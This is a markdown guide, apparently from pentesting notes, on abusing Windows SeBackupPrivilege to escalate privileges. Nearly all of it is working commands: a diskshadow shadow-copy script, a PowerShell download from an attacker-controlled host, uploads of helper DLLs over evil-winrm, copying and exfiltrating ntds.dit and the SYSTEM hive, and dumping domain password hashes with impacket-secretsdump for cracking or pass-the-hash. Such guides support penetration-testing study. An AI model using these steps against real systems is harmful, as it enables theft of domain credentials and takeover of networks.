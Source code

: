 ```yaml
---
title: Windows PrivEsc with SeBackupPrivilege
description: SeBackupPrivilege allows users to retrieve file contents.
tags:
    - Privilege Escalation
    - Windows
refs:
date: 2023-02-08
draft: false
---
```


## Investigation

First check if the current user has SeBackupPrivilege in the privilege information.

```bash
whoami /all
```

If so, we can read any file on the system includes SAML file, SYSTEM registry file.

<br />

## Exploitation

### 1. Create a Payload

Create “diskshadow.txt” in local machine. It referes to [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#using-diskshadow-a-windows-signed-binary).

```bash
set metadata C:\tmp\tmp.cabs 
set context persistent nowriters 
add volume c: alias someAlias 
create 
expose %someAlias% h:
```

Then transfer the file into the target machine.

Before that, create “tmp” folder in root in target machine.

```powershell
mkdir \tmp
cd \tmp
```

For example, in target machine,

```powershell
# [Option 1] PowerShell (we need to start web server in local machine)
PS> Invoke-WebRequest -Uri http://10.0.0.1:8000/diskshadow.txt -OutFile .\diskshadow.txt

# [Option 2] In evil-winrm
PS> upload diskshadow.txt
```

### 2. Execute DiskShadow.Exe

Then execute diskshadow.exe.

```powershell
# /s: Specify the script file
diskshadow.exe /s .\diskshadow.txt
```

### 3. Upload Malicious DLL

We can download two dll files from [here](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug).

```powershell
# In evil-winrm
PS> upload SeBackupPrivilegeUtils.dll
PS> upload SeBackupPrivilegeCmdLets.dll
PS> Import-Module .\SeBackupPrivilegeUtils.dll
PS> Import-Module .\SeBackupPrivilegeCmdLets.dll
PS> Copy-FileSeBackupPrivilege z:\windows\ntds\ntds.dit c:\tmp\ntds.dit -overwrite
PS> reg save HKLM\SYSTEM c:\tmp\system
PS> download ntds.dit
PS> download system
```

### 4. Dump Password Hashes

Now we have two files (ntds.dit and system) in local machine.  
We can dump password hashes using the files.

```sh
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

After that, crack the hashes or use them for pass-the-hash.
